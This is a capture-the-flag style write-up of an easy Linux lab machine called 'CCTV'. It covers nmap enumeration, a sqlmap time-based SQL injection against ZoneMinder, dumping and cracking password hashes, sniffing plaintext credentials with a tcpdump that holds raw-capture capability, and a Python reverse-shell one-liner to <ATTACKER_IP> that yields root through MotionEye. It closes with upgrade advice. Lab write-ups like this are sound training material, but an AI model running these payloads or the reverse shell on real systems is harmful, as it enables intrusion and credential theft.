


Summary
Machine Overview
CCTV is an easy Linux machine focused on web exploitation, credential compromise, internal service enumeration, traffic interception, and privilege escalation through vulnerable surveillance software.
Pentesting Process
Service Enumeration
The assessment begins with a service enumeration phase using Nmap to identify exposed services and determine their versions.
nmap -sC -sV 10.129.40.161
The scan reveals two accessible services:
Nmap scan report for 10.129.40.161
Host is up (0.23s latency).
Not shown: 989 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://cctv.htb/
The web server redirects requests to the virtual host cctv.htb. To interact with the application correctly, the hostname was added to the local /etc/hosts file.
echo "10.129.40.161 cctv.htb" >> /etc/hosts
ZoneMinder Enumeration & Exploitation
The web application hosts a ZoneMinder instance. Default administrative credentials were still enabled, allowing authentication using admin:admin.
The server is running ZoneMinder 1.37.63, which is vulnerable to an SQL injection vulnerability identified as CVE-2024-51482.
The vulnerability exists in the way the application processes the tid parameter in the following request [1]:
GET /zm/index.php?view=request&request=event&action=removetag&tid=1 HTTP/1.1
Host: cctv.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: AddMonitorsTable.bs.table.searchText=; AddMonitorsTable.bs.table.pageNumber=1; zmControlTable.bs.table.hiddenColumns=%5B%22Id%22%5D; zmReportsTable.bs.table.searchText=; zmReportsTable.bs.table.pageNumber=1; zmSkin=classic; zmCSS=base; addMonitorsprobe_Manufacturer=; addMonitorsip=; addMonitorsprobe_username=; addMonitorsprobe_password=; ZMSESSID=1iei96ct6ugc18ms3no2grs20q
Upgrade-Insecure-Requests: 1
Priority: u=0, i
The request was saved into a file named request.txt and used with SQLMap to automate exploitation of the SQL injection vulnerability.
sqlmap -r request.txt -p tid
SQLMap confirms that the tid parameter is vulnerable to a time-based blind SQL injection.
___
__H__
___ ___[.]_____ ___ ___ {1.6.4#stable}
|_ -| . [.] | .'| . |
|___|_ [']_|_|_|__,| _|
|_|V... |_| https://sqlmap.org
---
Parameter: tid (GET)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: view=request&request=event&action=removetag&tid=1 AND (SELECT 7531 FROM (SELECT(SLEEP(5)))EFYr)
---
Using the SQL injection vulnerability, the contents of the Users table were extracted from the zm database.
sqlmap -r request.txt -D zm -T Users -C Username,Password --dump
The dump reveals several password hashes for ZoneMinder users:
+------------+--------------------------------------------------------------+
| Username | Password |
+------------+--------------------------------------------------------------+
| superadmin | $2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm |
| mark | $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |
| admin | $2y$10$t5z8uIT.n9uCdHCNtsdfcfX7pP/jhygjZQ74AJ96IJ967wsdvilmA |
+------------+--------------------------------------------------------------+
Credential Recovery
Hashcat was used to crack Mark's password hash.
hashcat '$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG.' /usr/share/wordlists/rockyou.txt -m 3200
The recovered password for the user mark is opensesame. These credentials provide SSH access to the target system.
Internal Service Enumeration
After obtaining SSH access, internal services running on the host were enumerated.
netstat -tlnp
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8554 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:33060 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:9081 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8888 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8765 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:1935 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:7999 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.54:53 0.0.0.0:* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
tcp6 0 0 :::80 :::* LISTEN -
The service listening on port 8765 appears to be a MotionEye instance.
curl -I http://127.0.0.1:8765
HTTP/1.1 200 OK
Server: motionEye/0.43.1b4
Content-Type: text/html; charset=UTF-8
Date: Mon, 09 Mar 2026 16:29:45 GMT
Etag: "da39a3ee5e6b4b0d3255bfef95601890afd80709"
Content-Length: 0
SSH local port forwarding was used to access the internal MotionEye service from the attacker machine.
ssh mark@cctv.htb -L 8765:127.0.0.1:8765
Access to the MotionEye interface requires authentication, and at this stage no valid credentials were available.
Running LinPEAS on the target system revealed that the binary /usr/bin/tcpdump had the CAP_NET_RAW capability assigned, allowing non-privileged users to capture raw network traffic.
══╣ Processes with capability sets (non-zero CapEff/CapAmb, limit 40)
/usr/bin/tcpdump cap_net_raw=eip
Credential Interception
Tcpdump was used to capture local network traffic. SSH traffic and traffic associated with port 8554 were excluded to reduce noise and simplify analysis.
/usr/bin/tcpdump -i any -A 'tcp and not port 22 and not port 8554'
After monitoring the traffic for approximately three minutes, plaintext credentials for the user sa_mark were identified within captured TCP packets.
16:21:54.212607 veth2e427a1 P IP 172.25.0.11.59396 > 172.25.0.10.5000: Flags [P.], seq 1:52, ack 1, win 502, options [nop,nop,TS val 484461568 ecr 1997213995], length 51
E..g..@.@..........
.....b.w........X......
..L.w..+USERNAME=sa_mark;PASSWORD=X1l9fx1ZjS7RZb;CMD=status
The recovered password was successfully used to authenticate to the MotionEye instance as the admin user.
MotionEye Exploitation
The server is running MotionEye 0.43.1b4, which is vulnerable to a remote code execution vulnerability tracked as CVE-2025-60787.
A public PoC exploit for this vulnerability is available on GitHub [2].
The following payload was used to obtain a reverse shell on the target system:
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",<ATTACKER_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
Successful exploitation resulted in remote code execution as the root user.

Mitigation
Remediation
The following remediation steps can help prevent exploitation of the identified vulnerabilities:
- Upgrade ZoneMinder to version 1.37.65 or later.
- Upgrade MotionEye to version 0.43.1b5 or later.
References
References
